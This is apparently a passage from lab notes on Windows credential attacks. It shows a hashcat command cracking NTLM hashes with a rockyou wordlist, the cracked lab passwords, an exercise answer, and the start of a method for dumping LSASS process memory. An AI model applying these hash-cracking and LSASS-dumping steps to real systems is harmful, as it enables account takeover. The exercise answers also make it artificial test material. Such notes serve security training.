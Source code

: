 `nano haskestocrack.txt`

* store the HTLM hashes (last strings) into the txt file...

`sudo hashcat -m 1000 hashestocrack.txt Desktop/rockyou.txt`

Administrator:mommy1

ITbackdoor:<mark style="color:green;">**matrix**</mark>

frontdesk:Password123

**Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)**

<mark style="color:green;">**frontdesk:Password123**</mark>

### Attacking LSASS

#### LSASS capabilities

after initial login, LSASS will:

* cache creds locally in memory
* create access tokens
* enforce security policies
* write to win sec log

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

#### Dumping LSASS Process memory

a) Task Manager -> find a process there - right-click - create dump file, file is saved in C:/users/\<user>/AddData/Local/Temp
